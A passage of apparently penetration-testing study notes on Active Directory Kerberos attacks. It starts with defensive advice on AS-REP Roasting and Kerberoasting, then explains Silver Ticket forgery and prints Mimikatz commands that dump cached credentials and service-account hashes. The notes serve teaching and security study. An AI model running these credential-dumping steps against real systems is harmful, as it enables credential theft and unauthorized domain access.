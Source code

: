 **Defensive Implications:**
- Regular audit of accounts with disabled pre-authentication
- Strong password policies for service accounts
- Migration to Managed Service Accounts where possible
- Monitoring for unusual TGS-REQ patterns and volumes

Both AS-REP Roasting and Kerberoasting represent powerful techniques for credential compromise in Active Directory environments, exploiting different aspects of the Kerberos authentication protocol to enable offline password attacks.

---

## Silver Tickets

Silver tickets represent forged Kerberos service tickets created using compromised service account credentials, enabling unauthorized access to specific services while bypassing normal authentication mechanisms and potentially evading detection.

### Service Ticket Forgery Fundamentals

**Kerberos Service Ticket Trust Model:**
- **Service Authentication**: Applications verify service tickets using service account password hash
- **Blind Trust**: Applications typically trust ticket integrity without additional validation
- **Group Membership**: Permissions determined by group memberships embedded in service ticket
- **PAC Validation**: Optional verification process (rarely implemented)

**Attack Prerequisites:**
1. **SPN Password Hash**: NTLM hash of service account
2. **Domain SID**: Security Identifier of the target domain
3. **Target SPN**: Specific Service Principal Name to access

### Information Gathering for Silver Tickets

**Access Verification (Baseline Test):**
```powershell
# Test current access to target resource
iwr -UseDefaultCredentials http://web04
```

**Expected Access Denied Response:**
```
401 - Unauthorized: Access is denied due to invalid credentials.
Server Error

  401 - Unauthorized: Access is denied due to invalid credentials.
  You do not have permission to view this directory or page using the credentials that you supplied.
```

**Service Account Hash Extraction:**
```powershell
# Launch PowerShell as Administrator
# Navigate to tools directory
cd C:\Tools

# Execute Mimikatz
.\mimikatz.exe

# Enable debug privileges
privilege::debug

# Extract cached credentials
sekurlsa::logonpasswords
```
